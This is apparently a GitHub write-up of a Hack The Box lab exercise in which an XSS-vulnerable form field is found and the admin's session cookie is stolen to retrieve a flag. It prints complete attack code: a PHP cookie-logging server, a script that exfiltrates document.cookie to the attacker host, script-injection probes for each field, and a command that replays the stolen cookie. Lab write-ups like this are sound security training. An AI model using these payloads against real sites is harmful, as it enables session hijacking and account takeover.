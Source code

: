 # HTB XSS and Session Hijacking Writeup

This repository documents identifying a vulnerable input field via XSS and performing session hijacking to steal the admin's cookie and retrieve the flag from `login.php`.

- **Attacker IP:** `10.10.14.179`
- **Target IP:** `10.129.31.89`
- **Date:** April 11, 2025

# Objective
The goal was to identify a vulnerable input field in a web form hosted at ` http://10.129.31.89/hijacking/index.php `, exploit it using Cross-Site Scripting (XSS), and perform session hijacking to steal the admin’s session cookie. The captured cookie would then be used to authenticate to ` http://10.129.31.89/hijacking/login.php ` and retrieve a flag, likely part of a Hack The Box (HTB) lab challenge.

## Step-by-Step-Solution

### Step 1: Set Up Attacker Server
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
```
**index.php** 
```bash
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
**script.js**
```bash
new Image().src='http://10.10.14.179/index.php?c='+document.cookie;
```
![Screenshot 2025-04-11 121049](https://github.com/user-attachments/assets/d73e3601-5734-474c-a982-8b3e09d9a51f)

**cookies.txt**
```bash
sudo touch cookies.txt
sudo chmod 666 cookies.txt
```
**Run server**
```bash
sudo php -S 0.0.0.0:80
```
### Step 2: Identify Vulnerable Field
**Form**: ` http://10.129.31.89/hijacking/index.php`

**Fields Tested:**

fullname: ` "><script src=http://10.10.14.179/fullname></script> `

username: ` "><script src=http://10.10.14.179/username></script> `

password: ` "><script src=http://10.10.14.179/password></script> `

email: ` "><script src=http://10.10.14.179/email></script> `

imgurl: ` "><script src=http://10.10.14.179/imgurl></script> `

**Process:**

Injected each payload into one field at a time, others set to **test**.

Checked server logs for requests (e.g., GET /fullname).

Vulnerable field identified when a request appeared.

![image](https://github.com/user-attachments/assets/549aa3b7-f9d2-4f40-bda3-55dc883c05c1)


### Step 3: Exploit with XSS
**Payload**: 

```bash ">
<script src=http://10.10.14.179/script.js></script>
```

Inject this script into the vulnerable field


**Cookie Captured**:
```bash
cat cookies.txt
```

### Step 4: Use Cookie in login.php
URL: ` http://10.129.31.89/hijacking/login.php `

Added cookie via DevTools > Storage > Cookies.

Refreshed to get the flag.

![Screenshot 2025-04-11 124820](https://github.com/user-attachments/assets/4727fca4-bd11-4b35-ae36-4e8c98bfa418)

# Tools Used

**PHP Development Server:**
` sudo php -S 0.0.0.0:80 `

Purpose: Hosted ` index.php ` and ` script.js ` on ` 10.10.14.179 ` to log cookies and serve the XSS payload.

**cURL:**
` curl -b "cookie=<value>" http://10.129.31.89/hijacking/login.php `

Purpose: Tested the stolen cookie against ` login.php ` to retrieve the flag.

**Web Browser with Developer Tools**:

Browser: Any modern browser (e.g., Chrome, Firefox).

Used to inspect the form, enable the submit button ` (document.getElementById('register').disabled = false;) ` , and manually set cookies in the Storage tab.

**Text Editor**:

nano (e.g., ` nano index.php, nano script.js ` ).

Purpose: Created and edited server-side scripts (`index.php`) and client-side payload (`script.js`).

**Terminal:**
Managed server setup, file permissions (`sudo chmod 666 cookies.txt`), and log monitoring (`cat cookies.txt`).

**Git:**
`git init, git add, git commit, git push`.

Purpose: Documented the process in a GitHub repository.


